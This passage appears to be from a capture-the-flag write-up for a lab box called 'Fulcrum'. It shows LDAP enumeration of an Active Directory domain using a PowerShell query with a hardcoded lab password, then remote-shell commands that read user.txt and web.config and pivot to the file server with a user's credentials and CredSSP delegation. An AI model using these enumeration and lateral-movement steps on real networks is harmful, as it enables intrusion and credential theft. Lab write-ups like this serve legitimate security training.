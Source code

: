Output:
```
...[snip]...
LDAP://dc.fulcrum.local:389/CN=FILE,CN=Computers,DC=fulcrum,DC=local                                                                             {distinguishedname, samaccountname, adspath, lastlogon}
LDAP://dc.fulcrum.local:389/CN=Bobby Tables,OU=People,DC=fulcrum,DC=local                                                                        {distinguishedname, samaccountname, adspath, lastlogon}
LDAP://dc.fulcrum.local:389/OU=People,DC=fulcrum,DC=local                                                                                        {distinguishedname, adspath}
LDAP://dc.fulcrum.local:389/CN=LDAP Lookup,OU=People,DC=fulcrum,DC=local                                                                         {distinguishedname, samaccountname, adspath, lastlogon}
LDAP://dc.fulcrum.local:389/CN=be36,OU=People,DC=fulcrum,DC=local                                                                                {memberof, distinguishedname, samaccountname, adspath...}
LDAP://dc.fulcrum.local:389/CN=8631,OU=People,DC=fulcrum,DC=local                                                                                {memberof, distinguishedname, samaccountname, adspath...}
LDAP://dc.fulcrum.local:389/CN=9791,OU=People,DC=fulcrum,DC=local                                                                                {memberof, distinguishedname, samaccountname, adspath...}
LDAP://dc.fulcrum.local:389/CN=879f,OU=People,DC=fulcrum,DC=local                                                                                {memberof, distinguishedname, samaccountname, adspath...}
LDAP://dc.fulcrum.local:389/CN=953d,OU=People,DC=fulcrum,DC=local                                                                                {memberof, distinguishedname, samaccountname, adspath...}
LDAP://dc.fulcrum.local:389/CN=81b2,OU=People,DC=fulcrum,DC=local                                                                                {memberof, distinguishedname, samaccountname, adspath...}
LDAP://dc.fulcrum.local:389/CN=97f0,OU=People,DC=fulcrum,DC=local                                                                                {memberof, distinguishedname, samaccountname, adspath...}
```

From the output of our LDAP query we can see some interesting objects, include the name of the fileserver: _file.fulcrum.local_ , and a user different from the rest of the users "Bobby Tables". We can run a more filtered query on the common name (CN) "bobby", and we can now include all the properties mapped to this object. 


```Powershell
$username = 'LDAP'
$password = 'PasswordForSearching123!'
$DomainControllerIpAddress = 'dc.fulcrum.local'
$LdapDn = 'dc=fulcrum,dc=local'
$dn = New-Object System.DirectoryServices.DirectoryEntry ("LDAP://$($DomainControllerIpAddress):389/$LdapDn",$username,$password)
$ds = new-object System.DirectoryServices.DirectorySearcher($dn)
$ds.filter = "((cn=bobby*))"
$ds.SearchScope = "subtree"
$ds.PropertiesToLoad.Add("*")
$data = $ds.FindAll()
$data.Properties
```


[192.168.30.130]: PS C:\Users\WebUser\Documents> $env:UserName
[192.168.30.130]: PS C:\Users\WebUser\Documents> $env:UserDomain
[192.168.30.130]: PS C:\Users\WebUser\Documents> dir
[192.168.30.130]: PS C:\Users\WebUser\Documents> type .\user.txt
[192.168.30.130]: PS C:\Users\WebUser\Documents> type .\CheckFileServer.ps1
[192.168.30.130]: PS C:\inetpub\wwwroot> dir
[192.168.30.130]: PS C:\inetpub\wwwroot> type web.config
[192.168.30.130]: PS C:\inetpub\wwwroot>
[192.168.30.130]: PS C:\Users\WebUser\Documents> Enter-PSSession -Computername file.fulcrum.local -Credential fulcrum.local\btables
[192.168.30.130]: PS C:\Users\WebUser\Documents> Enable-WSManCredSSP –Role Client –DelegateComputer spoke